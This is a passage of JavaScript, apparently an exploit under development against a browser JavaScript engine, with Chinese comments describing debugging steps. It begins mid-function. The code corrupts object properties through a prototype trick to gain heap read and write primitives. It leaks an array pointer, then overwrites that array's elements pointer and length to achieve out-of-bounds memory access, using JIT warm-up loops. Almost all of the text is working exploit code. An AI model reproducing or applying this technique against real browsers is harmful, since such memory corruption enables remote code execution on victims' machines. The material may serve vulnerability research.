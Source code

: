 ```javascript
  object_2.regular_prop = 1;


  setPropertyViaEmbed(object_2, value_2, () => {
    Object.setPrototypeOf(proto, null);
    object_2.corrupted_prop = value_1;
    object_1.regular_prop = 1.1
  });


  return [object_1, object_2];
}

double_arr = [1.1]
obj_arr = [double_arr, {}]

// 这里插入一个适合在调试器里手工读取 obj_arr 的 elements 的时机
alert('debug');
debug = obj_arr;

//
// 从 elements[0] 读取 double_arr 指针
//

// 先手工输入 elements 的指针，验证方法可行
obj_arr_elems = prompt();

v1 = [1.1, 1.2, 1.3];
v1.p = 1;

proto2 = {};
const [oa, ob] = createCorruptedPair(proto2, v1, utof(BigInt(`0x${obj_arr_elems.toString(16)}00000000`)));

read_heap_mem = (o) => {
	return o.corrupted_prop[0];
}

for (var i = 0; i < 100000; ++i)
	read_heap_mem(oa);

double_arr_start = low32u(ftou(read_heap_mem(ob)));
console.log('obj_arr[0]:', double_arr_start.toString(16));

// 修改 double_arr 的 elements 和 length
const elements_offset = 0x8;

elems_len = utof(BigInt(`0x000000f0${obj_arr_elems.toString(16).padStart(8, '0')}`));

write_heap_mem = (o) => o.corrupted_prop[0] = elems_len;

proto3 = {}
const [oc, od] = createCorruptedPair(proto3, v1, utof(BigInt(`0x${double_arr_start.toString(16)}00000000`)));

for (let i = 0; i < 100000; ++i)
	write_heap_mem(oc);

write_heap_mem(od);

// 这里输出的长度不是 1 的话，说明修改成功了
console.log(double_arr.length);
```